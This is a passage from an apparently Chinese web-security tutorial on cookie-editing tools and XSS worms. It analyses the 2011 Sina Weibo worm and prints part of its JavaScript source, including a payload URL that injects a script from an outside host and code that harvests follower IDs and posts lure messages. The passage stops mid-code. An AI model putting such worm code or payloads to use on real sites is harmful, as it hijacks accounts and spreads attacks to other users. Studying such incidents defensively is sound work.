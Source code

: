 
<Image alt="图片13.png" src="https://s0.lgstatic.com/i/image2/M01/04/3F/CgpVE1_r7hmATCQBAAHhyKThdOI750.png"/> 
  
图 21：EditThisCookie

还有另一款早期业界比较常用的工具，叫"桂林老兵 Cookie 欺骗工具"，以及在《01 \| 武器库：常用的渗透测试工具》中介绍的 Burp Suite，它们均支持修改 Cookie。

#### 蠕虫攻击

前面我介绍了 Samy 蠕虫，但并没有谈到XSS 蠕虫的实现技术。XSS 蠕虫的实现正是得益于Ajax 技术的出现，而后者正是 Web2.0 的标志性技术。

Ajax（Asynchronous JavaScript and XML，异步 JavaScript 和 XML）是指一种**创建交互式网页应用的网页开发技术**。这个概念比较抽象，具体讲就是在我们浏览网页，做一些操作时，可以减少浏览器的一些页面重绘操作，避免出现页面抖动、闪现之类的不适体验。这也正是 Web2.0 带来的改变。

Ajax 中的核心技术就是 XMLHttpRequest，它允许 JavaScript 脚本与服务器进行通信，在不刷新页面的情况下，向服务器发送请求或是接收服务器的响应数据。

下面我以之前影响比较大的新浪微博 XSS 蠕虫攻击事件为例，介绍 Ajax 技术在 XSS 蠕虫中的应用，从攻击代码来详细讲解。


<Image alt="Drawing 21.png" src="https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOu-AUgG8AAMoVNqvtj8470.png"/> 
  
图 22 ：新浪微博上感染 XSS 蠕虫的用户

2011年 6 月 28 日，新浪微博遭受 XSS 蠕虫的攻击，很多受害者被迫发布带有攻击链接的私信和微博。这些消息都带有一定的诱惑性，其他用户点击后也会此影响。受害者在感染后，都会自动关注一位名为"hellosamy"的微博用户（估计是效仿 Samy 蠕虫），然后向关注受害者的用户发送含有同样链接地址的私信，并发布含攻击链接的微博。得益于这种传播方式，在16 分钟内病毒就感染了33000 个用户。

我们来分析下新浪微博的 XSS 蠕虫代码：

```javascript
// 创建 XMLHttp 对象用于收发请求
function createXHR(){ 
    return window.XMLHttpRequest?
    new XMLHttpRequest():
    new ActiveXObject("Microsoft.XMLHTTP");
}
function getappkey(url){
    xmlHttp = createXHR();
    xmlHttp.open("GET",url,false); //获取 AppKey 不采用异步执行,等待请求返回 
    xmlHttp.send();
    result = xmlHttp.responseText;
    id_arr = '';
    // 正则匹配出 AppKey 数组,包含每个被收听用户的 uid 
    id = result.match(/namecard=\"true\" title=\"[^\"]*/g);
         https://beefproject.com/
    for(i=0;i<id.length;i++){
        sum = id[i].toString().split('"')[3];  //重新提取整理
        id_arr += sum + '||';
    }
    return id_arr;
}
function random_msg(){

    // 使用短地址服务，构造 XSS 传播连接，隐藏自己的恶意 js 脚本，
    // 这里正是 XSS 漏洞的触发位置
 //http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=upd
    link = ' http://163.fm/PxZHoxn?id=' + new Date().getTime();;
    // 话题列表 
    var msgs = [
        '郭美美事件的一些未注意到的细节：',
        '建党大业中穿帮的地方：',
        '让女人心动的 100 句诗歌：',
        '3D 肉团团高清普通话版种子：',
        '这是传说中的神仙眷侣啊：',
        '惊爆!范冰冰艳照真流出了：',
        '杨幂被爆多次被潜规则:',
        '傻仔拿锤子去抢银行：',
```